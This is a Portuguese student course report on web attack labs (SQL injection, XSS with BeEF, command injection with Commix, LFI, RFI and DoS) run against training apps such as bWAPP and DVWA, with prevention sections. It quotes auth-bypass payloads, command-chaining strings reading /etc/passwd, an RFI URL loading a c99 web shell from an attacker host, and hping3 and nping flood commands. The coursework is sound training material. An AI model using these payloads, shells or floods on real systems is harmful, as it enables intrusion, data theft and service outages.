

# Relatório de Aulas — Cibersegurança

> **Autor:** Bruno Araújo Sakamoto  
> **Disciplina:** Cibersegurança  
> **Local:** SENAI Gaspar Ricardo Júnior — Sorocaba  
> **Ano:** 2025  

---

## Sumário

- [Introdução](#introdução)
- [SQL Injection](#sql-injection)
- [SQLmap](#sqlmap)
- [XSS](#xss)
- [BeEF](#beef)
- [Command Injection](#command-injection)
- [Commix](#commix)
- [LFI](#lfi)
- [RFI](#rfi)
- [DoS](#dos)
- [Escape de Caracteres](#escape-de-caracteres)

---

## Introdução
Este relatório descreve, de forma prática e com linguagem acessível, três técnicas estudadas em aula: SQL Injection (SQLi), Cross‑Site Scripting (XSS) e Command Injection. Para cada técnica são apresentados: o que é, por que é perigosa, uma ferramenta usada em laboratório para exploração, um exemplo de código vulnerável e sua correção, defesas recomendadas e procedimentos de teste em ambiente controlado.

## SQL Injection
### Resumo:
SQL Injection (SQLi) é uma técnica de exploração que permite a um atacante manipular consultas SQL de uma aplicação web para extrair, modificar ou excluir dados do banco. É prevenível aplicando-se práticas de programação seguras (ex.: PreparedStatement), validação/escape de entrada e uso de frameworks/ORMs.
### Pontos principais:
•	SQLi explora a concatenação insegura de entradas de usuários em queries SQL.
•	Testes básicos: inserir apóstrofo (') para identificar erros e usar payloads como ' or '1'='1' -- para bypass de autenticação.
•	Enumeração via ORDER BY e UNION para descobrir número de colunas, nomes de tabelas e colunas (information_schema).
•	Ferramentas úteis: OWASP Mutillidae II (laboratório), sqlmap (automatização).
•	Prevenção: PreparedStatements, parametrização, ORM, validação e princípio do menor privilégio no BD.
### Resumo do Lab — OWASP Mutillidae II:
1. Acessar VM Hacker e servidor web e abrir a aplicação Mutillidae II.
2. Reconhecimento: testar logins e observar mensagens de erro para identificar usuários.
3. Varredura: inserir ' para provocar erro e identificar a consulta SQL.
4. Exploração: usar payloads como ' or '9'='9' e ' or '1'='1' -- para obter acesso.
5. Enumeração/Extração: usar ORDER BY para descobrir número de colunas; usar UNION combinado com information_schema para listar tabelas/colunas e extrair dados sensíveis.
6. Observação: senhas podem estar armazenadas em texto simples — risco crítico.
### Tarefa:
Executar exercícios na bWAPP: identificar vulnerabilidade SQLi (Search/GET), explorar para listar títulos, descobrir quantidade de colunas, nome do BD, tabelas, colunas da tabela users e extrair dados.
### Prevenção:
Evitar concatenação direta de entradas em queries. Utilizar PreparedStatement / parametrização, ORMs, validação de entrada, escaping e controle de privilégios no BD.

### Prints da Aula
 

Figura 1 tentativa com admin mostrando erro de senha — confirma que admin existe. 

 

Figura 2 payload ' OR '1'='1' -- usado para contornar autenticação. 

 

Figura 3 payload direcionado para autenticar como admin.

 

Figura 4 tela demonstrando login bem-sucedido após injeção SQL.
 
## OWASP ZAP / SQLmap
### Resumo:
Apresentação do uso de proxies e da ferramenta OWASP ZAP para interceptação e análise de tráfego HTTP, e do SQLmap para automação da detecção e exploração de SQL Injection. Objetivo: identificar pontos de injeção, visualizar requests/responses via proxy e extrair dados do BD de forma automatizada.
### Pontos principais:
•	Proxy (ZAP) atua como intermediário: intercepta, registra e permite modificar requests/responses.
•	ZAP facilita análise manual do tráfego (aba History) e captura de cookies/params para uso em ferramentas.
•	SQLmap automatiza identificação e exploração de SQLi (técnicas: UNION, blind, time-based, etc.).
•	Comandos SQLmap úteis: --dbs, --tables, --dump, --current-db; use --proxy e --cookie para integrar com ZAP.
•	Risco: extração de dados sensíveis e execução remota de comandos se o servidor estiver vulnerável.
### Resumo do Lab:
1. Instalar e abrir OWASP ZAP; usar o navegador integrado para rotear tráfego pelo proxy ZAP.
2. Acessar bWAPP (login bee/bug) e reproduzir uma busca para capturar o request na aba History.
3. Inspecionar request/response no ZAP para obter parâmetro vulnerável, cookies e PHPSESSID.
4. Executar sqlmap apontando a URL vulnerável, informando --proxy e --cookie para visualizar testes via ZAP.
5. Empregar opções do sqlmap para listar DBs, tabelas e extrair dados (--dbs, --tables -D <db>, --dump -T <table> -D <db>).
### Tarefa:
Usar ZAP + sqlmap na aplicação Mutillidae II (ou bWAPP) para identificar vulnerabilidades SQLi e extrair dados: obter usernames/passwords e dados de cartão de crédito, registrando cookies/sessão usados.
### Boas práticas / Prevenção:
Eliminar pontos de injeção: parametrização/PreparedStatements, uso de ORM, validação e sanitização de entrada, limitar privilégios do usuário do BD e monitorar/tratar erros para não vazar informações.

### Prints da Aula
 

Figura 5 aba History — localizar o GET da busca (parâmetro title). 

 

Figura 6 visualização do request que será usado no SQLmap.

 

Figura 7 visualização da response que será usado no SQLmap.

 

Figura 8 listagem de bancos detectados.

 
Figura 9 banco em uso identificado pelo sqlmap.

 

Figura 10 tabelas do banco alvo.

 

Figura 11 extração da tabela users (hashes/senhas).

## Escape de caracteres / frameworks (backend)
•	Objetivo: impedir que entradas sejam interpretadas como código (SQL, comandos, etc.).
•	Use Prepared Statements / consultas parametrizadas (ex.: Java PreparedStatement, psycopg2 cursor.execute(sql, params)).
•	Prefira ORMs (Hibernate, SQLAlchemy, Entity Framework) para reduzir riscos de injeção.
•	Valide e normalize (whitelist) formatos e comprimentos no servidor; aplique princípio do menor privilégio no DB.
•	Se precisar escapar, use funções nativas do driver — evite escaping manual salvo quando for contextual e testado.
 
## XSS
### Resumo:
XSS é uma vulnerabilidade que permite a injeção de código JavaScript malicioso em páginas web, levando à execução desse código em navegadores de outras vítimas (roubo de sessão, redirecionamento, alteração de conteúdo). O tipo Stored/Persistent persiste no banco e afeta todos os visitantes da página.
### Pontos principais:
•	XSS permite execução de JS arbitrário em contexto de outros usuários (ex.: alerts, DOM manipulation, exfiltração de cookies).
•	Cenários comuns: campos de comentários, blogs, buscas — qualquer entrada exibida sem encoding.
•	Tipos relevantes: Stored (persistente), Reflected (refletido) e DOM-based.
•	Impactos: roubo de credenciais/sessões, defacement, phishing (site clonado) e execução de ações em nome do usuário.
•	Ferramentas/labs: OWASP Mutillidae II / bWAPP para testes práticos.
### Resumo do Lab — OWASP Mutillidae II:
1. Acessar OWASP Mutillidae II → A3 - Cross Site Scripting (XSS) → Persistent (Second Order) → Add to your blog.
2. Inserir nome/profissão e salvar; testar inserção de payload JS (ex.: ) e salvar.
3. Configurar port forwarding no VirtualBox (127.0.0.1:8080 -> IP do servidor OWASP:80) para acessar a partir da máquina real.
4. Verificar que o payload foi persistido no BD e executa em outros navegadores; usar Reset DB para limpar após testes.
5. Exemplos adicionais: document.body.innerHTML="" (tornar página em branco) e injeção de imagens via DOM.
### Tarefa:
No bWAPP (bee/bug) acessar 'Cross-Site Scripting - Stored (Blog)': inserir payload que dispare um alert, alterar página para parecer fora do ar e inserir imagem na página; ao terminar, resetar o BD.
### Prevenção:
Evitar execução de código inserido por usuários: aplicar HTML/JS encoding (escaping), usar frameworks que fazem encoding automático (React, Angular, Razor), validar e sanitizar entradas, usar whitelists e sanitizadores (ex.: Ganss.XSS, ESAPI) para campos que aceitam HTML.

### Prints da Aula
 

Figura 12 alerta mostrado por .

 

Figura 13 Remove todo o conteúdo visível da página.

 

Figura 14 Substitui conteúdo por imagem arbitrária.

## BeEF 
### Resumo:
BeEF (Browser Exploitation Framework) é uma ferramenta para explorar vulnerabilidades do lado cliente via browsers, usada para controlar navegadores comprometidos (ex.: via XSS) e executar módulos de ataque/engenharia social.
### Pontos principais:
•	BeEF conecta navegadores comprometidos a um servidor de controle por meio de um hook.js injetado.
•	Permite executar módulos: redirecionamentos, captura de credenciais, screenshots, keylogging, social engineering.
•	Instalação no Kali: sudo apt install beef-xss; iniciar com beef-xss e acessar UI via browser.
•	Implantação do hook:  (inserir via XSS ou engenharia social).
•	Módulos exemplares: Pretty Theft (phishing UI), Fake Notification Bar (redirecionamento/download malicioso).
### Resumo do Lab / Procedimentos rápidos:
1. Instalar BeEF no Kali (sudo apt install beef-xss) e iniciar o servidor; redefinir senha quando solicitado.
2. Acessar painel BeEF pelo browser (usar credenciais beef + senha redefinida) e verificar hooks.
3. Injetar hook.js no alvo via XSS ou por engenharia social: .
4. Quando o navegador do alvo se conectar, usar módulos como Pretty Theft e Fake Notification Bar via aba Commands.
5. Monitorar Module Results History para capturar entradas de vítimas (evidências) e parar o servidor com beef-xss-stop.
### Tarefa:
No bWAPP (bee/bug) → 'Cross-Site Scripting - Stored (Blog)' inserir hook.js e aplicar módulos BeEF: Pretty Theft e Fake Notification Bar. Explorar outros módulos disponíveis e registrar resultados.
### Segurança e Ética (resumido):
BeEF é uma ferramenta de teste/educacional. Seu uso em alvos sem autorização é ilegal e antiético. Realizar testes apenas em ambientes de laboratório autorizados.

### Prints da Aula
 

Figura 15 página falsa do Facebook exibida ao usuário (Pretty Theft). 

Figura 16 credenciais e entradas capturadas pelo módulo. 

 

Figura 17 notificação falsa exibida no navegador da vítima.

 

Figura 18 interação com a notificação inicia o download configurado.

## Escape de caracteres / frameworks (frontend)
•	Objetivo: evitar XSS e injeção via DOM — trate tudo vindo do usuário como dados, não como markup.
•	Frameworks (React, Angular, Vue) fazem HTML-encoding por padrão; evite dangerouslySetInnerHTML / v-html sem sanitização.
•	Use sanitizadores confiáveis quando permitir HTML: DOMPurify, sanitize-html.
•	Prefira textContent / innerText em vez de innerHTML; use encodeURI()/encodeURIComponent() para URLs.
•	Implemente CSP (Content-Security-Policy) para reduzir impacto caso XSS ocorra.

## Command Injection
### Resumo:
Command Injection permite a execução arbitrária de comandos do sistema operacional a partir de entradas da aplicação web. Atacantes exploram concatenação insegura de entradas em comandos shell para obter acesso, listar arquivos, ler senhas e avançar lateralmente.
### Pontos principais:
•	Vulnerabilidade ocorre quando entrada do usuário é concatenada a comandos shell sem validação/escape.
•	Exemplos de comandos exploratórios: ls, ls -la, id, whoami, pwd, cat /etc/passwd, uname -a, ps -ef.
•	Concatenação permite encadear comandos: ';', '&&', '||' alteram fluxo de execução.
•	Risco: obtenção de ficheiros sensíveis, execução de processos, escalonamento e comprometimento do servidor.
•	Testes práticos: BWAPP / Mutillidae -> Command Injection (DNS Lookup) para enviar payloads que executam nslookup + comandos.
### Exemplos/Notas:
•	Comando básico que a aplicação pode executar: `nslookup google.com`
•	Concatenação: `google.com; ls -la` — executa nslookup e lista diretório.
•	Uso condicional: `comando1 && comando2` (segundo roda se primeiro tiver sucesso).
•	Uso alternativo: `comando1 || comando2` (segundo roda se primeiro falhar).
### Principais diretórios Linux:
•	/ — raiz do sistema
•	/bin — programas essenciais
•	/etc — arquivos de configuração
•	/home — diretórios dos usuários
•	/root — diretório do superusuário
•	/proc — informações do kernel/processos
•	/tmp — arquivos temporários
•	/var — dados variáveis (logs, spool)
•	/usr, /lib, /opt — programas, bibliotecas e apps adicionais
### Prevenção (resumida):
Não construa comandos shell concatenando entradas do usuário. Use APIs que não invoquem o shell (ex.: bibliotecas nativas), valide e filtre entradas (whitelist), escape corretamente se necessário, aplique princípio do menor privilégio para contas do serviço, use containers/isolamento e monitore/registre execuções suspeitas.

### Tarefa:
Acessar bwapp (bee/bug) → OS Command Injection. Testar envio de payloads que concatenem comandos e observar respostas do servidor; documentar comandos testados e resultados.
### Prints da Aula

Figura 19 campo DNS Lookup — insira google.com.br e acione a consulta.

 

Figura 20 representação do comando nslookup sendo chamado pelo backend.

 

 Figura 21 local da tarefa — bWAPP (OS Command Injection).

## Commix 
### Resumo:
Commix é uma ferramenta automatizada para descoberta e exploração de vulnerabilidades de Command Injection em aplicações web. Integra-se bem com proxies (ex.: OWASP ZAP) para capturar requisições e possibilita execução de comandos remotos via payloads.
### Pontos principais:
•	Commix automatiza testes de Command Injection usando parâmetros HTTP capturados (GET/POST).
•	Funciona melhor quando combinado com um proxy para obter cookies, headers e corpo da requisição.
•	Permite injetar payloads em locais marcados como INJECT_HERE e obter um pseudo-terminal no servidor.
•	Risco: execução remota de comandos, extração de arquivos sensíveis e escalonamento de privilégio.
•	Sempre realizar testes apenas em ambientes autorizados e controlados.
### Procedimento rápido / Lab:
1. Abrir OWASP ZAP e, no navegador integrado, acessar bwapp → login (bee/bug) → OS Command Injection.
2. Executar a requisição de DNS Lookup e capturar a requisição POST na aba History do ZAP (obter headers, cookies e body).
3. Montar o comando commix usando -u, --cookie, e --data com target=INJECT_HERE para indicar o ponto de injeção.
   Exemplo:
   commix -u http://10.0.2.15/bWAPP/commandi.php --cookie='PHPSESSID=...;security_level=0' --data="target=INJECT_HERE&form=submit"
4. Executar e usar o pseudo-terminal aberto pelo commix para testar comandos no servidor (ls, id, cat /etc/passwd, etc.).
### Tarefa (resumida):
Usar commix no ambiente bwapp (bee/bug) para identificar e explorar Command Injection: capturar requisição via ZAP, montar comando commix e obter acesso ao pseudo-terminal; documentar comandos testados.
### Prevenção (resumida):
Evitar passagem de entradas não validadas para execuções de shell. Usar APIs que não invoquem o shell, validar/filtrar entradas, aplicar princípios de privilégio mínimo e isolar serviços.

### Prints da Aula
 

Figura 22 captura na aba History mostrando headers, cookies e o corpo da requisição (ex.: target=google.com&form=submit).

 

Figura 23 comando Commix pronto para execução, usando URL, cookie e parâmetro INJECT_HERE no --data.

## Escape de caracteres / configurações do servidor
•	Objetivo: reduzir vetores de RFI/LFI e exposição por meio de configurações seguras.
•	PHP: disable allow_url_include, allow_url_fopen; display_errors = Off em produção.
•	Web servers: desabilitar autoindex, limitar client_max_body_size (uploads) e bloquear métodos HTTP desnecessários.
•	Use cabeçalhos de segurança: Content-Security-Policy, X-Content-Type-Options, X-Frame-Options, HSTS.
•	Uploads: mover fora do document root, montar diretórios de upload com noexec quando possível, permissões restritas.

## LFI 
### Resumo:
LFI permite a inclusão de arquivos locais do servidor pela aplicação web quando o caminho enviado pelo usuário não é validado. Combinado com técnicas de traversal (../../) e outros vetores, permite leitura de arquivos sensíveis e potencial escalonamento.
### Pontos principais:
•	LFI ocorre quando parâmetros que referenciam arquivos locais são aceitos sem validação, permitindo Directory Traversal (../).
•	Impactos: leitura de arquivos sensíveis (/etc/passwd, /etc/shadow, arquivos de configuração, credenciais), exposição de dados e movimentação lateral.
•	LFI pode ser explorado via Command Injection/Commix para movimentar-se no filesystem e localizar arquivos valiosos.
•	Ferramentas/labs: bwapp Directory Traversal, ZAP para captura e commix para execução de comandos.
•	Boa prática: restringir caminhos, usar whitelists, normalizar e validar entradas, evitar inclusão de arquivos diretamente por input.
### Resumo do Lab / Procedimentos rápidos:
1. Usar commix para obter um pseudo-terminal no servidor (capturando sessão via ZAP e executando commix no endpoint de Command Injection).
2. Acessar bwapp → Directory Transversal - Files; observar URL como: /directory_traversal_1.php?page=message.txt
3. No pseudo-terminal, localizar e visualizar message.txt (pwd, ls | grep message, cat message.txt) para confirmar conteúdo.
4. Listar diretórios e filtrar arquivos não .php: ls -la | grep -v .php; explorar diretório 'passwords' e arquivos internos (ls passwords).
5. Testar LFI na URL substituindo page= por caminhos relativos (e.g., page=passwords/heroes.xml) ou usando traversal ../../ to reach /etc/passwd.
### Arquivos sensíveis a testar (exemplos):
•	/etc/passwd — informações de contas de usuário
•	/etc/hosts — mapeamento local de hosts
•	/etc/resolv.conf — servidores DNS configurados
•	/etc/ssh/sshd_config — configuração do serviço SSH
•	/etc/issue — mensagem de boas-vindas / informações do sistema
### Tarefa:
Explorar LFI em bwapp: usar Directory Traversal para acessar arquivos locais do servidor, listar diretórios relevantes e exfiltrar conteúdos de arquivos sensíveis (ex.: /etc/passwd, /etc/hosts, /etc/resolv.conf, /etc/ssh/sshd_config, /etc/issue). Documentar passos e evidências.

### Prevenção:
Não permita que usuários controlem caminhos de inclusão. Use whitelists de arquivos permitidos, normalize/resolve caminhos e rejeite traversal sequences, desabilite funções de include dinâmico quando possível, aplique controles de acesso estritos e mantenha arquivos sensíveis fora do diretório acessível pela web.
### Prints da Aula
 

Figura 24 comando Commix montado com URL, cookie e --data

 

Figura 25 tela da funcionalidade Directory Traversal mostrando message.txt.

 

Figura 26 execução sequencial dos comandos para localizar e ler message.txt e explorar o diretório.

## RFI
### Resumo:
RFI (Remote File Inclusion) permite que uma aplicação inclua arquivos remotos (via URL) quando parâmetros não são validados, possibilitando upload/execução de web shells e backdoors (e.g., c99, r57). Ferramentas como Weevely automatizam criação de web shells.
### Pontos principais:
•	RFI permite carregar e executar código remoto (PHP) no servidor alvo, criando backdoors e shells.
•	Backdoors/web shells (c99, r57, PHP Mini Shell, Weevely) dão interface para executar comandos, navegar e transferir arquivos.
•	Workflow típico: hospedar shell no atacante (Apache), apontar parâmetro vulnerable para o arquivo remoto e acessar a interface da shell.
•	DVWA upload inseguro pode permitir upload de shells; técnica de traversal pode contornar restrições de path.
•	Impacto: controle remoto do servidor, exfiltração de dados, pivot e persistência.
### Resumo do Lab / Procedimentos rápidos:
1. Subir servidor Apache no Kali (sudo systemctl start apache2) e hospedar um PHP shell (ex.: c99.txt renamed) em /var/www/html.
2. No OWASP bwapp, localizar vulnerabilidade RFI/LFI e substituir parâmetro por URL do shell hospedado: ?language=http://<attacker-ip>/c99.txt
3. Acessar a URL injetada para obter interface gráfica do shell e explorar diretórios, executar comandos e editar arquivos (ex.: portal.php).
4. Em DVWA, utilizar funcionalidade de upload para enviar scripts PHP (test PHP), usar traversal para acessar uploads e executar shells (mini shell -> upload c99).
5. Gerar/e usar Weevely: `weevely generate [password] file.php`, fazer upload e conectar: `weevely <url> <password>` para sessão interativa.
### Tarefas:
•	Explorar C99Shell: navegar diretórios do alvo, localizar portal.php e editar conteúdo via interface.
•	Executar R57Shell: incluir e explorar r57shell no DVWA uploads.
•	Weevely: gerar web shell, subir no DVWA e conectar via weevely para sessão interativa.
•	Alterar index.php do DVWA (tarefa de alteração de dados) usando técnicas estudadas.
### Prevenção:
Evitar inclusão de arquivos por URL; validar/whitelist parâmetros, restringir uploads por tipo e extensão, validar conteúdo, configurar permissões rígidas, desabilitar execução em diretórios de upload, usar WAF e monitoramento de integridade.

### Segurança e Ética:
Ferramentas e técnicas mostradas são para fins educacionais e de teste em ambientes autorizados. Uso em alvos reais sem permissão é ilegal.
### Prints da Aula
 

Figura 27 sequência no terminal do Kali demonstrando sudo e a cópia do c99.php para /var/www/html/c99.txt, preparando o host atacante para servir o shell.

 

Figura 28 bWAPP na página Remote & Local File Inclusion com o C99 incluído via RFI, mostrando a interface do web shell embutida.

 

Figura 29 listagem de diretórios e arquivos exibida pelo C99 (evidência de acesso a estrutura de arquivos do servidor).

 

Figura 30 página inicial do DVWA (usuário admin) — ponto de partida para testes de upload.

 

Figura 31 tentativa de upload de mini2022.php no DVWA; upload bloqueado/recusado pela aplicação. 

 

Figura 32 C99Shell mostrando arquivos presentes no diretório de uploads (c99.php, mini2022.php, etc.) e controles para execução/edição.

 

Figura 33 interface de web shell (r57/c99) exibindo área de execução de comandos e saída — evidência de shell ativo no servidor.

## Shell scripts / configurações do servidor
•	Riscos: passar input não confiável para shell (eval, backticks), scripts executados como root, permissões incorretas.
•	Boas práticas em scripts: set -euo pipefail; quote variáveis ("$var"); evitar eval; usar arrays para argumentos.
•	Sanitizar/validar com whitelist (regex); rejeitar chars perigosos (; & | $() `).
•	Não executar scripts como root; usar sudo apenas quando estritamente necessário com sudoers restrito.
•	Servidor: aplicar ulimit/cgroups, hardening (SSH keys, desabilitar root login), monitoramento/auditoria (auditd) e isolamento (containers).

## DoS
### Resumo:
DoS (Denial of Service) e DDoS são ataques que visam indisponibilizar serviços ao sobrecarregar recursos do alvo. Exemplos: SYN flood, UDP/ICMP floods e ataques de conexão completa. Ferramentas como hping3 e nping permitem simular ataques para estudos.
### Pontos principais:
•	3 way TCP handshake: SYN, SYN-ACK, ACK — ataques como SYN Flood exploram a etapa inicial para esgotar recursos.
•	Tipos de ataques: SYN Flood, UDP Flood, ICMP (Ping) Flood e ataques de conexão completa (tcp-connect).
•	Ferramentas citadas: hping3 (floods com flags TCP/UDP/ICMP), nping (tcp-connect rate) para testes controlados.
•	Parâmetros importantes: taxa de envio, tamanho do pacote, flags TCP, spoofing de origem (--rand-source).
•	Mitigações: rate limiting, firewalls, Syn cookies, CDNs, balanceamento, serviços de mitigação DDoS e monitoramento.
### Resumo do Lab / Procedimentos rápidos:
1. Revisar o 3-way TCP handshake para entender como SYN Floods exploram conexões incompletas.
2. Usar hping3 para simular SYN Floods: exemplo
   hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source 10.0.2.15
   ou versão 'turbinada': hping3 -S -P -U --flood -V --rand-source <alvo>
3. Teste de conexão completa com nping:
   nping --tcp-connect --rate=90000 -c 900000 -q <alvo>
4. Sempre realizar testes em ambientes controlados e autorizados; monitore recursos do alvo (CPU, conexões, logs) durante o teste.
### Mitigações e boas práticas:
•	Monitoramento com IDS/IPS e análise de tráfego (NetFlow, Wireshark) para detecção precoce.
•	Rate limiting e limites de conexão por IP / sessão para reduzir impacto de floods.
•	Uso de Syn cookies para proteger contra SYN floods.
•	Redes/infra com redundância: load balancers, CDNs e servidores em múltiplas regiões.
•	Serviços especializados em mitigação DDoS (Cloudflare, AWS Shield, Akamai) para absorver tráfego volumétrico.
•	Configuração rígida de servidores: timeouts, limites de sessão, atualizações e WAF.

### Tarefa:
Estudar e executar testes controlados em laboratório: simular SYN Flood com hping3 e monitorar efeitos; testar nping para conexão completa; documentar métricas observadas (latência, uso de CPU, conexões abertas) e medidas tomadas para mitigar o impacto.
### Segurança e Ética:
Ataques DoS/DDoS sem autorização são ilegais. Realize quaisquer testes apenas em ambientes de laboratório autorizados e com consentimento explícito.
### Prints da Aula

 

Figura 34 sequência no terminal elevando para root e iniciando hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source 10.0.2.4 — início de um SYN flood (apenas em laboratório autorizado).

 

Figura 35 execução do comando hping3 -S -P -U --flood -V --rand-source 10.0.2.4, demonstrando flood com flags PUSH/URG e fontes randômicas. 

 

Figura 36 terminal mostrando nping --tcp-connect --rate=90000 -c 900000 -q 10.0.2.1 em execução, iniciando conexões TCP em alta taxa contra o alvo.

 

Figura 37  Serviço alvo ficou inacessível após o ataque de conexão massiva.